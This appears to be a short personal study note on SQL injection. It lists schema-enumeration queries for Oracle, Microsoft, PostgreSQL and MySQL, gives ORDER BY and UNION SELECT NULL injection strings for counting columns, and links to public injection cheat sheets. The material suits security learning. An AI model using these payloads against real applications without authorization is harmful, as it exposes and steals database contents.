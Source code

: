 # SQLi Steps
1. Find out which DBMS the application uses
>- Oracle       

    SELECT * FROM all_tables  
    SELECT * FROM all_tab_columns  WHERE table_name = 'TABLE-NAME-HERE'  
>- Microsoft  	

    SELECT * FROM information_schema.tables  
    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'  
>- PostgreSQL	

    SELECT * FROM information_schema.tables  
    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
>- MySQL	

    SELECT * FROM information_schema.tables  
    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   
2. Find out the number of columns you can select by SQLi   
   
Select c1,c2 from table1 where cx=***'entrypoint'***   
>-  Way 1 -> by replace the entrypoint to '+order+by+testing_number--

>-  Way 2 -> replace entrypoint to '+union+select+null,null...+from+table_name--

3.  Using infromation_schema.tables & information_schema.columns to find the table you want and the columns you want:  
***cheetsheet weblink=>https://portswigger.net/web-security/sql-injection/cheat-sheet*** 

    
## In Conclusion
First -> Find the version of SQL using   

Second ->  Find out the number of columns you can select by SQLi   

Third -> Using infromation_schema.tables & information_schema.columns to find the table you want and the columns you want   

Additionally, a cheatsheet usefull => https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md
